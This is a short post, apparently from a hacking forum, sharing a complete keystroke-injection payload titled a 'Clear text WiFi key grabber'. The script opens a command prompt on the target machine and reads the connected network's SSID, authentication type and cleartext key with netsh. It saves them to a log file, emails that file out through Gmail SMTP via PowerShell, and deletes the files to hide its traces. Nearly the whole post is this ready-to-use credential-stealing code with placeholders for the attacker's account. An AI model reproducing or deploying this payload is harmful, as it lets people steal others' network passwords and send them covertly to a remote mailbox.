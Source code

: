 This payload:

    Opens CMD
    Finds the key (password) of the WiFi the target is connected to
    Saves the SSID, Network type, Authentication and the key to Log.txt
    And emails Log.txt via gmail

Change the following things;

    ACCOUNT: Your gmail account
    PASSWORD: Your gmail password
    RECEIVER: The email you want to send Log.txt to

If you have any suggestions please tell me.
Code:

REM Author: Siem  
REM Version: 1  
REM Description: Clear text WiFi key grabber  
```
DELAY 2000
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000
REM --> Change directory (you can change this to something else to make less visible)
STRING cd "%USERPROFILE%\Desktop"
ENTER
REM --> Get SSID
STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
ENTER
REM --> Get network type
STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
ENTER
REM --> Get authentication
STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
ENTER
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
ENTER
REM --> Get key
STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
ENTER
REM --> Delete Temp.txt
STRING del Temp.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!' 
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```